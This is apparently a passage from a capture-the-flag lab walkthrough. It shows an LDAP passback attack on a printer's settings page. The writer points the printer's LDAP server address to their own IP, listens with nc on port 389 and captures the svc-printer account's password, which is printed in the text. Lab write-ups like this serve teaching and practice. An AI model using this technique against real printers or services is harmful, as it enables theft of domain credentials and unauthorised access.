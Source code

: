 It looks like the website of a printer.

If we click on Settings, we will be able to see the following:

```shell
http://10.129.95.241/settings.php
```

```shell
Server Address: printer.return.local
Server Port: 389
Username: svc-printer
Password: *******
```

We tried inspecting the Password input box, but we werent able to see the saved password.

We can add the domain to /etc/hosts:

```shell
echo "10.129.95.241 printer.return.local" | sudo tee -a /etc/hosts
```

### Passback attack changing Server Address to our Kali and nc listener IP
Let's try to connect the printer to a nc listener on our Kali to see if we can intercept anything.

First start the nc listener:

```shell
nc -lvnp 389
```

Then go to the website settings:

```shell
http://10.129.95.241/settings.php
```

Change the configuration there to the following:

```shell
Server Address: 10.10.14.206 # Enter our Kali tun0 IP here
Server Port: 389
Username: svc-printer
Password: ******* # Dont touch, dont change this!
```

After entering the configuration above, click on Update.

We will get a response on our nc listener after that:

```shell
listening on [any] 389 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.95.241] 51246
0*`%return\svc-printer�
                       1edFg43012!!
```

Nice! We got a password for svc-printer.
